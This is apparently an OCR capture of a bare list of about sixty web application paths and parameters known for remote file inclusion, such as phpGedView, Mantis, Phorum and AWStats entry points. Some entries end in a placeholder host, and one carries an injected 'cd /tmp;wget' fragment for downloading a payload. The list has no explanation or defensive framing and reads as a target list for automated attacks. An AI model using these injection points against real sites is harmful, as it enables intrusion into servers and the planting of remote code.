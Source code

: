 inc/header.php/step_one.php?server_inc=
phpatm/index.php?include_location=
gb/form.inc.php3?lang=
shannen/index.php?x=
family/phpgedview/index.php?PGV_BASE_DIRECTORY=
main.php?left=
forum/misc.php?action=
nucleus/libs/globalfunctions.php?DIR_LIBS=
show_archives.php?cutepath=
gallery.php=
magicforum/misc.php?action=
forum/admin/actions/del.php?include_path=
index.php?meio=
local/investing_industrialeastate1.php?a=
modules/coppermine/themes/default/theme.php?THEME_DIR
Popper/index.php?childwindow.inc.php?form=
class.mysql.php?path_to_bt_dir=
include/footer.inc.php?_AMLconfig[cfg_serverpath]=
eyeos/desktop.php?baccio=
ashnews.php?pathtoashnews=
index.php?modpath=
becommunity/community/index.php?pageurl=
index.php?sqld=
modules/module_db.php?pivot_path=
catalog/includes/include_once.php?include_file=
cgi-bin/calendar.pl?fromTemplate=
live/inc/pipe.php?HCL_path=
zb41/include/write.php?dir=
cgi-bin/awstats.pl?logfile=
presse/stampa.php3?azione=
inc/step_one_tables.php?server_inc=
index.php?mainpage=
phpprojekt/lib/authform.inc.php?path_pre=
captionator.php?GALLERY_BASEDIR=
_head.php?_zb_path=.example.com
achievo/atk/javascript/class.atkdateattribute.js.php?
config_atkroot=
gallery/captionator.php?GALLERY_BASEDIR=.example.com
globals.php3?LangCookie=.example.com
include/msql.php?inc_dir=
include/mssql7.php?inc_dir=
include/mysql.php?inc_dir=
include/oci8.php?inc_dir=
include/postgres.php?inc_dir=
include/postgres65.php?inc_dir=
install.php?phpbb_root_dir=
mantis/login_page.php?g_meta_inc_dir=
page.php?template=
phorum/admin/actions/del.php?include_path=
pollensondage.inc.php?app_path=
user/agora_user.php?inc_dir=
user/ldap_example.php?inc_dir=
userlist.php?ME=.example.com
_functions.php?prefix=
cpcommerce/_functions.php?prefix=
ashnews.php?pathtoashnews=cd /tmp;wget
eblog/blog.inc.php?xoopsConfig[xoops_url]=
b2-tools/gm-2-b2.php?b2inc=
includes/include_once.php?include_file=
modules.php?name=jokeid=
index.php?site=
livehelp/inc/pipe.php?HCL_path=
hcl/inc/pipe.php?HCL_path=
support/faq/inc/pipe.php?HCL_path=